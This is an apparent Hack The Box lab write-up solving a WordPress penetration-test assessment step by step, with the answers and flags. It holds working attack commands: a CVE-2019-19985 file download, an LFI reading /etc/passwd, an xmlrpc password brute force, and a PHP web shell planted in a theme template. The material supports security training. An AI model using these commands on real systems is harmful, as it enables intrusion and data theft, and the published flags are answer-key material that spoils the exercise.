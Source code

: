 We have reached the end of the module!

Now let's put all of the new skills we have learned into practice. This final skills assessment will test each of the topics introduced in this module against a new WordPress target.

## Scenario

You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

Note: You need to have a knowledge about how in Linux DNS mapping is done when the name server is missing.



#### Questions

Identify the WordPress version number.

* First, run a command with nmap as " nmap -Pn \<ip given> ", theres an HTTP and HTTPS connection available so use any of those to open the webpage in your browser
* once you are in the page, check for all the links and buttons, where they lead to and you will fine an interesting one called " blog.inlanefreight.local ". If you try accessing it, the webpage wont resolve, so you have to add the page to your list of hosts
* Run command " sudo sh -c 'echo “10.129.2.37 blog.inlanefreight.local” >> /etc/hosts' ", make sure the hosts does not have double quotes on the host file, if it does then remove them
* You can either access the webpage now by pressing the button that would not resolve before, or run the command " curl -s -X GET http:\//blog.inlanefreight.local/ | grep '\<meta name="generator"' " 
* 5.1.6

Identify the WordPress theme in use.

* Run command " curl -s -X GET http:\//blog.inlanefreight.local/ | grep theme ", you will see the used theme in several results 
* twentynineteen

Submit the contents of the flag file in the directory with directory listing enabled.

* Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", the output will show theres a directory listing available in the address " http:\//blog.inlanefreight.local/wp-content/uploads/ " so we will use it
* go to the webpage from the address you just got and you will see a file called "upload_flag.txt"
* HTB{d1sabl3_d1r3ct0ry_l1st1ng!}

Identify the only non-admin WordPress user. (Format: \<first-name> \<last-name>)

* Run command " wpscan --enumerate u --url http:\//blog.inlanefreight.local/ ", this will scan for users available on the page, the only user which does not have any sort of permissions is the one the scan found via brute force
* Charlie Wiggins

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

*  Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", this will scan for the vulnerable plugins the site has, we will use one in particular called " email-suscribers "
* Search on google for " CVE email-suscribers wordpress " and you will find one vulnerability in particular coded " CVE 2019-19985 " which allows for an authenticated file download
* for you to run the vulnerability, either go to a browser and type the whole link as " http:\//blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all " or do a curl, this will download a list of " subscribed users file " which you can open to get the flag
* HTB{unauTh_d0wn10ad!}

What is the version number of the plugin vulnerable to an LFI?

* Run command " wpscan --enumerate ap --url http:\//blog.inlanefreight.local/ ", theres only 2 plugins and the one you need is the first one
* 1.1.1

Use the LFI to identify a system user whose name starts with the letter "f".

* Search on google for " LFI Wordpress plugin ", it should intruct you on using the LFI by running the command " curl http:\//blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd ", it will give you a list of users in the webpage server, then just look for the one that starts with " f "
* frank.mclane

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.

* Run command " sudo wpscan --password-attack xmlrpc -t 20 -U erika -P rockyou.txt --url http:\//blog.inlanefreight.local ", we can do an xmlrpc attack as shown previously from our wpscans, the question is asking us to do an attack on an user called " erika " and we should use the " rockyou.txt " file as its a long and useful list of popular passwords
* Once you get a positive result, you wull notice the password is " 010203 " and we will use it to access the webpages admin page. Once there, we should change the actual webpage theme for an obsolete one, such as the " Twenty Seventeen " as shown in previous examples.
* Once changed, co to the " Theme editor " tab and save the " system($\_GET\['cmd']); " code into the 404 template as done in previous exercises
* Once saved, you can run the command "curl http:\//blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika/ " and you will notice the flag has an unusual name which is " d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt "
* Run command " curl http:\//blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt " , or just go to the url on your browser to check the flags content
* HTB{w0rdPr355_4SS3ssm3n7}
